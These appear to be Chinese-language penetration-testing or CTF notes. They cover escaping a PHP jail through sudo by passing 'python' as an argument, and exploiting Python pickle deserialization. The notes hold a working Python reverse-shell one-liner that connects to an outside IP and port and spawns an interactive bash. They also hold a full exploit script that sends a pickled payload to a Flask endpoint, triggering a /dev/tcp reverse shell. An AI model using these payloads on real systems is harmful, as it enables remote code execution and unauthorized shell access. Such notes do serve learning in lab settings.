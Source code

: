 2. sudo -u kori /bin/php /home/kori/jail.php python

    1. 当前用户是有sudo权限的
    
    2. 指定kori用户来通过php接收器来执行jail.php文件（/bin/php的是一个解释器）
    
    3. 而python是作为参数传入到这个脚本中，意思就是jail.php这个脚本是有参数的传入的
    
        结合题目，就是jail会对传入的参数进行过滤，但是没有过滤python所以由此产生payload



3. 直接在python交互环境下输入，就可以反弹shell。

    ​    里面的库都是python自带的。 `-c`参数是表示后面字符串为需要执行的代码。

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.254.132",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

# Scripe

## Python

### 反序列化

1. pickle反序列化漏洞

    1. 什么是反序列化

    ​		简答理解就是将输入的东西或文件“编码”

    2. pickle反序列化漏洞

        `pickle`包是一个用于序列化和反序列化Python对象的标准库

```python
#!/usr/bin/python
#
# Pickle deserialization RCE exploit
# calfcrusher@inventati.org
#
# Usage: ./Pickle-PoC.py [URL]

import pickle
import base64
import requests
import sys

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

default_url = 'http://127.0.0.1:5000/vulnerable' #here should change, there just to change port and vulnerable,port is the web service use, vulnerabel is path,
url = sys.argv[1] if len(sys.argv) > 1 else default_url
command = '/bin/bash -i >& /dev/tcp/192.168.1.23/4444 0>&1'  # Reverse Shell Payload Change IP/PORT，here should change

pickled = 'pickled'  # This is the POST parameter of our vulnerable Flask app,here should change,pickled should be changed to post's parameter's name.
payload = base64.b64encode(pickle.dumps(PickleRCE()))  # Crafting Payload
requests.post(url, data={pickled: payload})  # Sending POST request
```

